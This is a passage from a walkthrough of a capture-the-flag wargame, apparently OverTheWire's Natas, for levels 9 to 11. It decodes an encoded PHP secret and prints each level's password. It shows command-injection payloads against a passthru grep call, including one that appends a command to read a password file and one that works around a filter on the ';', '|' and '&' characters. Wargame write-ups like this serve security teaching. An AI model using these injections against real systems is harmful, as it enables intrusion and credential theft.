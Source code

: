 `DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe`

## 9

Looking at the source code, we see that the secret, when encoded must match:
`3d3d516343746d4d6d6c315669563362`. To find out the clear text secret,
we can reverse the encoding steps:

```php
<?php
> hex2bin("3d3d516343746d4d6d6c315669563362");
"==QcCtmMml1ViV3b"
> strrev("==QcCtmMml1ViV3b");
"b3ViV1lmMmtCcQ=="
> base64_decode("b3ViV1lmMmtCcQ==");
"oubWYf2kBq"
```

Submit this secret to see the password.

`W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl`

## 10

In this level, user input is passed to the PHP
[passthru](https://secure.php.net/manual/en/function.passthru.php) function:

```php
passthru("grep -i $key dictionary.txt");
```

We can terminate the `grep` with a semicolon, run an arbitrary command, and
comment any code that comes after with:

```sh
; cat /etc/natas_webpass/natas10 #
```

Here, we return the contents of the password file with `cat`:

`s09byvi8880wqhbnonMFMW8byCojm8eA`

## 11

This level is the same as level [10](#10), but the characters `;`, `|` and `&`
are blocked by the server. We can utilise the `grep` to search for everything
in the password file:

```sh
.* /etc/natas_webpass/natas11 #
```

`SUIRtXqbB3tWzTOgTAX2t8UfMbYKrgp6`

## 12
